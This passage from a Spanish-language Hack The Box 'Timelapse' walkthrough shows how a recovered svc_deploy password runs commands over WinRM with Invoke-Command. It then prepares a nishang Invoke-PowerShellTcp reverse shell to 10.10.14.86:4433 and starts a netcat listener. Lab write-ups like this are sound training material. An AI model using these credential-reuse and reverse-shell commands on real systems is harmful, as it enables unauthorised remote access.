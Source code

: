 Opaaa, tenemos una contraseña que está asignada al usuario `svc_deploy`, lo que hizo básicamente es listar los puertos activos (supongo que para ver si el `5986` (winrm) lo estaba), generó una sesión para conectarse a ese puerto y ejecutar el comando `whoami` (como `svc_deploy`).

El correcto formato en una de las líneas para evitar frustraciones y enredos seria:

```powershell
...
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
...
```

Finalmente, muestra una lista de usuarios y sus propiedades, pero nada relevante...

Pues juguemos con ese histórico y ejecutemos también comandos como el usuario `svc_deploy` (si es que son válidas):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/timelapse/452windows_evilwinrm_legacyyPS_HistoryFoundExecuted_whoami_svcDeploy.png" style="width: 100%;"/>

Efectivamente, tamos ejecutando comandos como el usuario `svc_deploy`, intentemos levantar una reverse shell.

## Reverse Shell mediante Invoke-Command [📌](#revsh-ps-invokecommand) {#revsh-ps-invokecommand}

Jugaremos con una, de tantas herramientas que nos permiten generar una reverse **PowerShell**, esta es de la suite de [nishang](https://github.com/samratashok/nishang) (colección de scripts juguetones para pentesting en PowerShell), se llama:

* [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Lo descargamos y en su contenido lo único que debemos hacer es copiar una línea **comentada** al final del archivo (y quitarle el comentario :P), esto para que cuando el archivo sea ejecutado lea esa línea y la ejecute. 

Esa línea lo que hace es enviar una **PowerShell** a un puerto que tendremos en escuchas sobre nuestra dirección IP, veamos la línea que moveremos:

```powershell
...
19 PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444·
<# 19 es el número de la linea #>
...
```

Entonces, tomamos esa línea completa, la movemos al finaaaaaaal del archivo, le quitamos `PS >`, asignamos los valores correctos tanto a la IP como al puerto y quedaría así:

```powershell
...
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.86 -Port 4433
```

Ahora levantemos el puerto `4433`:

```bash
❱ rlwrap nc -lvp 4433
```
